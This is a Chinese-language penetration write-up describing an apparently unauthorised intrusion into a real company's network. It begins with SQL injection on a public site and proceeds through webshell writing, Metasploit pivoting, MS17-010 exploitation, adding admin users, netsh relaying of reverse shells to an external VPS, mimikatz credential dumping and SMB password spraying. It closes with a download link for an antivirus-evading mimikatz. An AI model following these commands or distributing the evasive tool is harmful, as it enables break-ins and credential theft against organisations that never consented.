记一次内网渗透练习
前段时间看了一下内网渗透，所以想找个环境练习一下，恰好有个兄弟丢了个站点出来，一起“练习内网”，然后就开始了“实战代练”。由于“懒”，所以记录时间和截图有些是补的。
0x00 外网入口点
打开站点（这里用baidu.com替代）看了看，左翻翻右翻翻能看到很明显的“注入”点。简单测试一下（and 1=1、1=2），返回不一样，所以sqlmap一把梭。
Thread 10开十个线程，跑的能快点
sqlmap -u https://baidu.com/detail.asp?Prod=2222222222 --random-agent --thread 10
估计外国站和带宽的原因，跑的很慢。所以走了一遍正常的信息收集:
真实ip:8.8.8.8
Web容器:Microsoft-IIS/7.5
子域名：
mailserver.baidu.com
mail.baidu.com
端口：80、443
......发现页面登录处admin有个万能密码，登录进去发现只有查看账单的一些功能，所以没用。
C段发现用同一套模板的站，判断是属同一家，所以也注入点跑了一遍。发现这个站跑的比目标站快很多，所以先搞。

--is-dba为dba权限，故os--shell试试，权限system

两个站都是08系统+sql注入+dba权限+system权限，直接拿到权限一条龙。外网入口点太轻松，可忽略，抱着学内网的心态。都一样的站，所以搞目标站。
0x01 中转捣鼓
执行回显得很慢，加了threads 10也是很慢。想着上cs和msf，死活不上线，怀疑有杀软或者拦截协议或者其他。
ceye试一下 ping xxxxxxx.ceye.io

平台有记录，能通外网。但是bitsadmin等下载命令都试了，不上线。走echo写马路线。
先找到web的目录，目录在C盘根目录？

写了n次马子，愣是没上去，位置不对还是有查杀小马的玩意？嗯，位置不对（猜可能有其他盘，d盘bingo）和好像还有个杀马子的玩意（用了个大小写换下，^是转义字符）。


0x02 惊现杀软
查看进程，之前发现有进程有ekrn.exe，egui.exe（eset的进程），不会免杀的我浪死在沙滩上。之前在刀上能执行命令的，这次回去补图居然执行不了命令了。sqlmap那个执行回显太慢，找张内网机子的图补一下（它内网机子都装了eset）。

翻翻文件（无脑子的翻，不确定哪些重要哪些不重要，感觉都重要），看看有什么数据库密码什么的。找到一些配置文件，发现数据库密码、邮服密码？。（在某个文件夹里面发现同行的脚本，应该没被日穿吧。）



先留着这些账号密码，存着之后可以考虑进入内网开始爆破操作。
0x03 msf大杀四方
直接用之前获取到的Sqlserver的sa账号密码，xp_cmdshell执行命令

Msf监听接收到shell，然后开启内网转发进入内网。

run autoroute –s 网段

MS17-010安排上，秒杀内网开始
Use auxiliary/scanner/smb/smb_ms17_010
Set rhosts 网段ip
Set threads 线程
run
这很泰国ms17-010基本都没打补丁。

搜集了一下信息，发现199ip很可能是个域控，存在大量用户（199不出网，不通外网）。
因为杀软问题直接利用ms17-010反弹shell是无法成功的，这里我们使用ms17-010命令执行的exp。
Use auxiliary/admin/smb/ms17_010_command
Set command 执行的命令
Set rhosts 目标
Run

Ok执行成功，添加用户和管理组
然后regeorg配和proxifier用之前的外网口子进入内网（regeorg通过web脚本文件将内网流量转发出来，具体可百度学习）


然后远程到199ip的桌面，下面让199ip主机反弹shell到msf。

我们已经拿到6的权限，可以使用微软自带的netsh转发进行中转shell。
我们这里设置的是将访问ip 10.1.1.6 8081端口的流量全部转发到外网vps 4478端口


199这个IP直接反弹shell到6的8081端口。（6会通过netsh设置转发到公网VPS上）。


199这个主机也没什么东西读波密码溜。（读密码需要system权限我们使用ms17-010进行提权）
通过ms17提权成功，读密码。

Load mimikatz 加载mimikatz
Kerberos 读取明文

我们拿到了199的明文密码。（下面我们利用此密码进行撞C段主机）。
Use auxiliary/scanner/smb/smb_login
Set rhosts IP
Set smbuser 用户名
Set smbpass 密码
Set threads 线程
Run
撞出了大量主机

此时行总发来了电报说他腰疼，七夕节腰疼有点意思。
通过行总发来的文档，得知内网存在5个C段，每个段都存在域控？？
前边已经得知10ip主机存在ms17（通外网，直接添加管理员用户）。

然后在进行IPC进行连接。

然后把马copy到目标C盘。
使用ms17进行执行木马反弹shell。

读取密码进行远程桌面连接。

Run getgui –e 开启远程桌面。


域内没有一台主机卧槽？域不要钱一样的搭建。（我们把目标转向1 IP主机 貌似还挺多域内主机 1的域为ESOURCE）。

1 IP主机没有可利用系统漏洞，目标转向域内用户，碰碰运气看能不能读到域管理密码。（先攻击存在ms17的域内主机）



基本套路ms17添加用户IPC上传文件ms17执行木马。（不要问我为啥不直接弹shell，因为杀软拦截，为啥拦截？我不知道！）
读了两台域内主机的密码，都没有读到域用户密码。（连个域普通用户都没有，拿到一个普通用户还能搞个黄金票据）。


最后目标锁定在79 IP上 他的本地管理员密码和199 IP主机本地管理员密码相同。


最后成功读到一枚域管理密码，deng登陆进去

这特码是域环境？这特码是工作组吧。

头疼死了，其他段的域控制器不想搞了，本次内网渗透就此结束，遗憾的是没用到黄金票据等一些拿域控的操作。
0x04 福利
本次带来的是免杀版的读密码神器mimikatz~内网渗透再也不怕360全家桶了，功能写死为导出凭据
 链接：https://pan.baidu.com/s/183BozwOrNNKurWOB-Gw74A
链接：https://pan.baidu.com/s/183BozwOrNNKurWOB-Gw74A
提取码：3k84
文章来源：ichunqiu社区
作者：J0o1ey
如有侵权，请联系删除